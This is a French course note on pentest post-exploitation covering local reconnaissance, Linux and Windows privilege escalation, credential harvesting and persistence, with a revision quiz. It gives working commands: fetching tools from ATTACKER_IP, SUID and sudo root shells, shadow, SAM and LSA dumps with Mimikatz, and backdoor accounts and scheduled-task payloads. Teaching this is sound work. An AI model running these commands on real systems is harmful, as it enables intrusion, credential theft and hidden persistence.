

---
aliases:
  - POST-EXPLOITATION & PRIVILEGE ESCALATION
  - 01-18 | POST-EXPLOITATION & PRIVILEGE ESCALATION
archetype: cour
module: GEN (Culture Générale & Hors Cursus)
cssclasses:
  - max
tags:
  - pentest/post-exploitation
  - privileges/elevation
  - persistance
  - authentification/credentials
  - red-teaming
  - audit-securite
  - pentest/reconnaissance
  - vulnerabilite/exploitation
  - microsoft/active-directory
  - shell
  - outil/linpeas
  - outil/winpeas
  - outil/mimikatz
  - outil/impacket
  - outil/pspy
  - outil/wmiexec
  - outil/psexec
  - outil/netcat
  - outil/socat
  - outil/python-http-server
  - vulnerabilite/suid
  - vulnerabilite/cron-job
  - vulnerabilite/linux-capabilities
  - vulnerabilite/nfs-root-squash
  - vulnerabilite/sudoers
  - artefact/shadow
  - artefact/sam
  - artefact/lsa
  - commande/id
  - commande/uname
  - commande/lsb_release
  - commande/sudo
  - commande/whoami
  - commande/netstat
  - commande/ls
  - commande/systeminfo
  - commande/ipconfig
  - commande/net-user
  - commande/net-localgroup
  - commande/wget
  - commande/chmod
  - commande/find
  - operating-system/linux
  - operating-system/windows
---

# 01-18 | POST-EXPLOITATION & PRIVILEGE ESCALATION

> [!goal] Objectifs Pédagogiques
> À la fin de cette fiche, je dois être capable de :
> 1.  Réaliser un audit local de la machine compromise.
> 2.  Utiliser les outils de *privilege escalation* automatique (*LinPEAS* / *WinPEAS*).
> 3.  Exploiter les *SUID*, les *cron jobs* et les *capabilities Linux*.
> 4.  Exploiter les services vulnérables sur Windows.
> 5.  Extraire les *credentials* (Linux `shadow`, Windows `SAM`/`LSA`, *Mimikatz*).
> 6.  Mettre en place une *persistence* "red team" contrôlée.
> 7.  Préparer l'escalade vers *Domain Admin* (Module 11).

## 📝 Synthèse du Cours

Ce module de niveau *Intermédiaire* à *Avancé* vise à transformer un accès utilisateur simple en un accès *root* sous Linux ou *Administrator* sous Windows, puis à collecter des *credentials* et assurer une *persistence* sur le système compromis.

### 1. Pré-requis et Outils Essentiels

Pour aborder ce module, il est impératif d'avoir validé les modules 1 à 9 et d'avoir déjà un *shell* fonctionnel sur au moins une machine du réseau (Linux et/ou Windows). Une liste d'outils spécifiques doit être téléchargée :

*   **`linpeas.sh` / `winpeas.exe`** : Des scripts d'audit automatisés pour identifier les vulnérabilités d'escalade de privilèges sur Linux et Windows respectivement.
*   **`mimikatz.exe`** (LAB uniquement) : Un outil puissant pour l'extraction de *credentials* sur les systèmes Windows.
*   **`Scripts Impacket`** : Une collection de scripts Python pour l'interaction avec des protocoles réseau, notamment pour le *dump* de *SAM* et *LSA*.

Les outils suivants seront également utilisés :

| Outil                       | Usage                                  |
| :-------------------------- | :------------------------------------- |
| *LinPEAS*                   | Analyse de l'escalade de privilèges Linux |
| *WinPEAS*                   | Analyse de l'escalade de privilèges Windows |
| *Mimikatz*                  | Extraction de *credentials* Windows    |
| *Impacket* (`secretsdump`)  | *Dump* des bases de données `SAM` et `LSA` |
| `pspy`                      | Observateur de processus Linux         |
| `wmiexec`/`psexec`          | Exécution de commandes à distance Windows |
| `netcat`/`socat`            | *Reverse shells* et *pivoting*         |

### 2. Check-in Post-exploitation : Audit et Reconnaissance Initiale

L'objectif initial après avoir obtenu un accès est de comprendre la machine compromise avant d'agir. Cette étape d'*audit local* permet d'identifier l'OS, les services en cours d'exécution, les privilèges actuels de l'utilisateur et les comptes présents.

**Sous Linux, les commandes clés incluent :**
*   `id` : Affiche l'identité de l'utilisateur.
*   `uname -a` : Informations sur le noyau du système.
*   `lsb_release -a` : Distribution Linux et informations de version.
*   `sudo -l` : Liste les commandes que l'utilisateur peut exécuter avec `sudo`.
*   `whoami` : Affiche le nom d'utilisateur effectif.
*   `netstat -tulppn` : Liste les connexions réseau actives, les ports en écoute et les processus associés.
*   `ls -la /home` : Liste le contenu des répertoires personnels pour identifier d'autres utilisateurs.

**Sous Windows (via *Meterpreter* ou un *shell*) :**
*   `whoami` : Affiche l'utilisateur courant.
*   `systeminfo` : Affiche des informations détaillées sur le système d'exploitation et la configuration matérielle.
*   `ipconfig /all` : Affiche la configuration réseau détaillée.
*   `net user` : Liste les utilisateurs locaux.
*   `net localgroup administrators` : Liste les membres du groupe *Administrators* local.
*   `netstat -ano` : Affiche les connexions réseau, les ports et les IDs de processus (PIDs).

### 3. Escalade de Privilèges sous Linux

L'escalade de privilèges sous Linux vise à passer d'un utilisateur standard à l'utilisateur *root*.

#### A. Utilisation de *LinPEAS*

*LinPEAS* est un script shell qui automatise la recherche de vulnérabilités. Pour le télécharger sur la cible depuis une machine d'attaquant (Kali par exemple) :
1.  Sur Kali : `python3 -m http.server 8000`
2.  Sur la machine Linux victime : `wget http://ATTACKER_IP:8000/linpeas.sh`
3.  Rendre le script exécutable : `chmod +x linpeas.sh`
4.  Lancer *LinPEAS* : `./linpeas.sh`

*LinPEAS* recherche diverses anomalies telles que les permissions anormales, les binaires *SUID root*, les *cron jobs*, les services à privilèges, les mots de passe en clair, les *capabilities Linux*, les configurations *NFS root squash* et les problèmes liés aux fichiers `sudoers`.

#### B. Méthodes Clés Linux

*   **SUID binaries (Set User ID)** : Les fichiers avec le bit *SUID* défini s'exécutent avec les privilèges du propriétaire du fichier, souvent *root*.
    *   Trouver les fichiers *SUID* : `find / -perm -4000 2>/dev/null`
    *   Exemples de binaires *SUID* vulnérables : `/usr/bin/nmap`, `/usr/bin/vim`, `/usr/bin/find`, `/usr/bin/python`.
    *   Exploitation exemple avec `find` : `/usr/bin/find . -exec /bin/sh -p \; -quit` permet d'obtenir un *shell root*.

*   **Cron Jobs mal sécurisés** : Des tâches planifiées exécutées par *root* peuvent être modifiées si les permissions du script ou du répertoire sont faibles.
    *   Examiner les *cron jobs* : `cat /etc/crontab`
    *   L'exploitation consiste à remplacer un script exécuté par *root* avec un *payload* malveillant.

*   **Sudo sans mot de passe** : Un utilisateur peut être autorisé à exécuter certaines commandes avec `sudo` sans avoir à entrer de mot de passe.
    *   Vérifier les permissions *sudo* : `sudo -l`
    *   Exemple d'exploitation avec Python : `sudo python3 -c 'import pty; import os; os.system("/bin/bash")'` permet d'obtenir un *shell root* si Python est autorisé.

*   **Capabilities Linux** : Elles divisent les privilèges *root* en unités plus petites. Une *capability* mal configurée peut être exploitée.
    *   Lister les *capabilities* : `getcap -r / 2>/dev/null`
    *   Exemple typique : `/usr/bin/python3 = cap_setuid` permet à Python de modifier l'UID d'un processus.
    *   Exploitation : `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` permet d'obtenir un *shell root*.

### 4. Escalade de Privilèges sous Windows

L'objectif est d'obtenir des privilèges *Administrator* sur un système Windows.

#### A. Utilisation de *WinPEAS*

Comme *LinPEAS*, *WinPEAS* est un outil d'automatisation.
1.  Télécharger *WinPEAS* depuis une machine d'attaquant : `certutil -urlcache -f http://ATTACKER_IP/WinPEAS.exe winpeas.exe`
2.  Lancer *WinPEAS* : `winpeas.exe`

*WinPEAS* détecte les contournements *UAC*, les services vulnérables, le *DLL hijacking*, les mots de passe en clair, les permissions anormales, les logiciels vulnérables et les *tokens* exploitables.

#### B. Méthodes Clés Windows

*   **Services mal configurés** : Certains services Windows s'exécutent avec des privilèges élevés et peuvent avoir des permissions faibles sur leur binaire ou leur configuration.
    *   Lister les services : `sc query state= all`
    *   Identifier les services avec des droits d'écriture pour l'utilisateur courant : `accesschk.exe /accepteula -uwvcqv userName *` (nécessite l'outil *AccessChk* de *Sysinternals*).
    *   Exploitation : Remplacer le binaire d'un service par un *payload* malveillant.

*   **UAC Bypass** (LAB uniquement) : Le *User Account Control* peut parfois être contourné pour exécuter des processus avec des privilèges élevés sans notification.
    *   Exemple : `powershell -ExecutionPolicy Bypass` peut être une première étape.

*   **Mise à niveau via *AlwaysInstallElevated*** : Si cette politique est activée, un utilisateur non privilégié peut installer des fichiers *.msi* avec des privilèges *SYSTEM*.
    *   Vérifier si activé :
        `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
        `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
    *   Exploitation : `msiexec /quiet /qn /i payload.msi` où `payload.msi` contient un exécutable malveillant.

*   **Token Impersonation** (LAB -> Windows Server) : Certains privilèges, comme `SeImpersonatePrivilege` ou `SeAssignPrimaryTokenPrivilege`, permettent à un processus d'impersoner un autre utilisateur ou de voler son *token* de sécurité.
    *   Vérifier les privilèges : `whoami /priv`
    *   Exploitation : Des outils comme *Juicy Potato* ou *PrintSpoofer* peuvent exploiter ces privilèges pour élever les droits.

### 5. Récolte de Crédentials (Credential Harvesting)

Une fois les privilèges élevés, l'extraction de *credentials* permet d'étendre l'accès à d'autres systèmes.

**Sous Linux :**
*   **Lecture de `/etc/shadow`** : Si l'attaquant est *root*, il peut lire le fichier `/etc/shadow` qui contient les *hashes* de mot de passe des utilisateurs.
    *   `cat /etc/shadow`
*   **Extraction des clés SSH** : Les clés privées SSH stockées dans le répertoire `~/.ssh` peuvent être utilisées pour accéder à d'autres systèmes où l'utilisateur a une clé publique autorisée.
    *   `ls -la ~/.ssh`

**Sous Windows :**
*   **Dump SAM & LSA avec *Impacket*** : L'outil `secretsdump.py` d'*Impacket* peut extraire les *hashes NTLM* des bases de données `SAM` (Security Account Manager) et `LSA` (Local Security Authority) qui stockent les informations d'identification locales.
    *   `secretsdump.py user:pass@192.168.56.6`
*   **Mimikatz** (LAB uniquement) : Cet outil est capable d'extraire des *Kerberos tickets*, des *hashes NTLM* et même des mots de passe en clair de la mémoire du processus `lsass.exe`.
    *   `privilege::debug`
    *   `sekurlsa::logonpasswords`

### 6. Stratégies de Persistance (LAB uniquement)

La *persistence* permet de maintenir un accès à la machine compromise même après un redémarrage ou la déconnexion de l'attaquant.

**Sous Linux :**
*   **Création d'un utilisateur administrateur** :
    *   `useradd attacker -m -G sudo`
    *   `echo "attacker:password" | chpasswd`
*   **Backdoor SSH (clé publique)** : Ajouter une clé publique d'attaquant au fichier `authorized_keys` d'un utilisateur permet un accès SSH sans mot de passe.
    *   `mkdir ~/.ssh`
    *   `echo "clé_publique" >> ~/.ssh/authorized_keys`

**Sous Windows :**
*   **Création d'un compte local** :
    *   `net user attacker Password123! /add`
    *   `net localgroup administrators attacker /add`
*   **Tâche planifiée persistante** : Créer une tâche planifiée qui exécute un *payload* au démarrage du système ou à intervalles réguliers.
    *   `schtasks /create /sc onstart /tn updater /tr "C:\payload.exe"`

### 7. Fiche de Post-Exploitation (Synthèse du Rapport)

Une fois la phase de post-exploitation terminée, il est crucial de documenter les findings. Une fiche de post-exploitation typique pourrait inclure :

| IP            | OS      | Méthode Privesc      | Outil    | Crédentials obtenus | Niveau final | Notes          |
| :------------ | :------ | :------------------- | :------- | :------------------ | :----------- | :------------- |
| 192.168.56.20 | Linux   | SUID / nmap          | LinPEAS  | root                | High         | pivot possible |
| 192.168.56.6  | Windows | Services vulnérables | WinPEAS  | Administrator       | High         | dump LSA OK    |

## 🧠 Carte Mentale / Schéma

## ❓ Quiz de Révision (Active Recall)
> [!question] Question 1
> Quels sont les deux outils automatisés principaux pour la recherche de vulnérabilités d'escalade de privilèges sur Linux et Windows ?
> > [!success]- Réponse
> > *LinPEAS* pour Linux et *WinPEAS* pour Windows.

> [!question] Question 2
> Mentionnez trois méthodes clés pour l'escalade de privilèges sous Linux.
> > [!success]- Réponse
> > 1.  Exploitation des *SUID binaries* (par exemple, `find`, `nmap`).
> > 2.  Modification de *Cron Jobs* mal sécurisés.
> > 3.  Utilisation de commandes *Sudo* sans mot de passe.
> > 4.  Exploitation des *Capabilities Linux*.

> [!question] Question 3
> Quel outil est couramment utilisé sous Windows pour extraire les *credentials* de la mémoire du système, et quels types d'informations peut-il récupérer ?
> > [!success]- Réponse
> > *Mimikatz*. Il peut récupérer des *Kerberos tickets*, des *hashes NTLM* et des mots de passe en clair.

> [!question] Question 4
> Comment un attaquant peut-il établir une *persistence* simple sous Linux après avoir obtenu les privilèges *root* ? Donnez deux exemples.
> > [!success]- Réponse
> > 1.  Création d'un nouvel utilisateur administrateur avec `useradd` et `chpasswd`.
> > 2.  Ajout de la clé publique de l'attaquant au fichier `~/.ssh/authorized_keys` d'un utilisateur pour un accès SSH *backdoor*.

> [!question] Question 5
> Quelle est l'importance de la commande `whoami /priv` sous Windows lors de la phase de post-exploitation ?
> > [!success]- Réponse
> > La commande `whoami /priv` permet de lister les privilèges détenus par l'utilisateur courant, ce qui est crucial pour identifier des vecteurs d'escalade de privilèges potentiels comme `SeImpersonatePrivilege` ou `SeAssignPrimaryTokenPrivilege` pour le *Token Impersonation*.